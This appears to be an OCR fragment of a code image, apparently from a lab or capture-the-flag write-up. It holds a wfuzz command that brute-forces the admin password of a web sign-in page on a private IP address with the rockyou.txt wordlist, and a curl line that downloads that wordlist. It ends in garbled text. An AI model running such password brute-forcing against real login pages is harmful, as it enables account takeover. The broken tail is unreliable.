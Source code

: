 wfuzz -w rockyou.txt "http://192.168.1.66/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"

curl https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt -L -o rockyou.txt

1988 hh

es shadow